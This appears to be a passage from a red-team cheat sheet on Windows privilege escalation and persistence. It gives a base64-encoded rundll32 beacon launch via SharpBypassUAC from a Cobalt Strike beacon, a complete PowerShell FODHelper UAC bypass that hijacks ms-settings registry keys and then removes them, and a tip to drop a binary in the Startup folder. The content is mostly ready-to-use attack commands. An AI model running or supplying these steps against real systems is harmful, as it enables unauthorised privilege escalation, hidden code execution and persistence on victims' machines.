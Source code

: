 PowerShell

#### UAC Bypass <a href="#uac-bypass" id="uac-bypass"></a>

Using [SharpBypassUAC](https://github.com/FatRodzianko/SharpBypassUAC).

```bash
# Generate EncodedCommand
echo -n 'cmd /c start rundll32 c:\\users\\public\\beacon.dll,Update' | base64

# Use SharpBypassUAC e.g. from a CobaltStrike beacon
beacon> execute-assembly /opt/SharpBypassUAC/SharpBypassUAC.exe -b eventvwr -e Y21kIC9jIHN0YXJ0IHJ1bmRsbDMyIGM6XHVzZXJzXHB1YmxpY1xiZWFjb24uZGxsLFVwZGF0ZQ==
```

Bash

In some cases, you may get away better with running a manual UAC bypass, such as the FODHelper bypass which is quite simple to execute in PowerShell.

```powershell
# The command to execute in high integrity context
$cmd = "cmd /c start powershell.exe"
 
# Set the registry values
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $cmd -Force
 
# Trigger fodhelper to perform the bypass
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
 
# Clean registry
Start-Sleep 3
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

PowerShell

### Persistence <a href="#persistence" id="persistence"></a>

#### Startup folder <a href="#startup-folder" id="startup-folder"></a>

Just drop a binary. Classic. 😎🚩

In current user folder, will trigger when current user signs in:

```
c:\Users\[USERNAME]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

Plaintext
